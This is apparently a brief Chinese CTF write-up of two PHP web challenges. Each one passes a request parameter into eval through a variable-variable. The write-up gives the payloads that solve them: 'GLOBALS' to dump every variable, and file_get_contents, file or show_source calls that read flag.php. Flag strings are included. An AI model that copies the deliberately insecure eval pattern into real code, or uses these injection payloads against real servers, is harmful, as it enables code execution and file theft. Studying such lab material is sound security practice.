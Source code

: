 ## 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 payload:`?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`

## 爆破-2
同样的题,解法不同
构造 payload:`?hello=file_get_contents('flag.php')` 提交,`Ctrl+U` 查看源码得到 flag:`flag{45026846-5a96-4f26-bc7a-1b80077b81d7}` 
以下均可
`file_get_contents('flag.php')`
`file('flag.php')`
`show_source('flag.php')`


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQyODg4OTM2MSw2MTcyMzMxMzAsMTk4Mj
EwMjkyNiwtMTc4Njk2NDMyOCw0NTkzOTYxNTVdfQ==
-->